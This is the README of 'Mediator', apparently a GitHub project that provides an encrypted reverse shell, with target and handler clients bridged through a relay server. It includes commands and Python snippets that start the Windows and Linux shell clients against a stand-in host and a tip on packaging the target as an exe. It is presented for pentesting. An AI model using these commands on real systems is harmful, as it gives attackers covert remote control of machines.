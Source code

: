 # Mediator

<p style="display: inline; float: left;">
Mediator is an end-to-end encrypted reverse shell in which the operator and the shell connect to a "mediator" server that bridges the connections. This removes the need for the operator/handler to set up port forwarding in order to listen for the connection. It also allows for easy integration into other pentesting and incident response tools.
</p>

<div style="text-align=right;">
  <img style="display: inline; float: right; margin-left: 1.5em" src="resources/mediator.png" alt="mediator logo" width="175"/>
</div>

## Architecture:

Inspired by end-to-end encrypted chat applications, this reverse shell takes a unique approach to the client/server model of a reverse shell. This reverse shell uses:

1. A client reverse shell
2. A client handler/operator
3. A server that bridges the two connections

Reverse shells and handlers connect to the mediator server with a connection key. The server listens on port 80 for handler connections and port 443 for reverse shell connections. When clients connect to the mediator, the server queues the clients according to their respective type and connection key. When both a reverse shell and an operator connect to the server with the same key, the server will bridge the two connections. From there, a key exchange is done between the two clients, and all communication between the reverse shell and operator is encrypted end-to-end. This ensures the server cannot snoop on the streams it is piping.

## Instructions:

### Server

The client scripts can be run on Windows or Linux, but you'll need to stand up the server ([mediator.py](mediator.py)) on a Linux host. You can either run the server script with

```bash
$ python3 mediator.py
```

or you can build a Docker image with the provided [Dockerfile](Dockerfile) and run it in a container (make sure to publish ports 80 and 443).

### Clients

The handler and the reverse shell can be used within other Python scripts or directly via the command line. In both cases, the clients can accept arguments for the server address and connection key. Usage of those arguments is described below.

**Mediator server address**

For *Python script* usage, the address of the mediator host is required upon instantiation:

*Handler class*
```python
from handler import Handler

operator = Handler(mediatorHost="example.com")
operator.run()
```

*WindowsRShell class*
```python
from windowsTarget import WindowsRShell

shell = WindowsRShell(mediatorHost="example.com")
shell.run()
```

If executing a client script *directly from a shell*, you can either hard code the address at the bottom of the script, or the server address can be specified as an argument with the `-s` or `--server` flag:

*handler.py*
```bash
$ python3 handler.py -s example.com
```

*windowsTarget.py*
```powershell
> python windowsTarget.py -s example.com
```

**Connection key**

When two handlers or two reverse shells connect to the mediator server with the same connection key, only the first connection is queued awaiting its match. Until the queued connection either times out (30 seconds) or matches with a counterpart connection, all other clients of the same type trying to connect with the same connection key will be dropped.

It is important to make sure each handler is using a unique connection key to avoid a race condition resulting in the wrong shell being given to an operator. 

Only keys with the prefix "#!ConnectionKey_" will be accepted by the server. The default connection key is "#!ConnectionKey\_CHANGE\_ME!!!".

To change the connection key for *Python script* usage, the connection key can optionally be supplied upon instantiation:

*Handler class*
```python
from handler import Handler

operator = Handler(mediatorHost="example.com", connectionKey="#!ConnectionKey_secret_key")
operator.run()
```

*LinuxRShell class*
```python
from linuxTarget import LinuxRShell

shell = LinuxRShell(mediatorHost="example.com", connectionKey="#!ConnectionKey_secret_key")
shell.run()
```

If executing a client script *directly from a shell*, you can either hard code the connection key at the bottom of the script, or the connection key can be specified as an argument with the `-c` or `--connection-key` flag:

*handler.py*
```bash
$ python3 handler.py -s example.com -c '#!ConnectionKey_secret_key'
```

*windowsTarget.py*
```powershell
> python windowsTarget.py -s example.com -c '#!ConnectionKey_secret_key'
```


## Tips and Reminders:

- REMINDER: handlers and reverse shells will not be bridged together unless they connect to the mediator server using the same connection key within 15 seconds of each other.
- TIP: You can easily create an exe for windowsTarget.py with pyinstaller using the `--onefile` flag

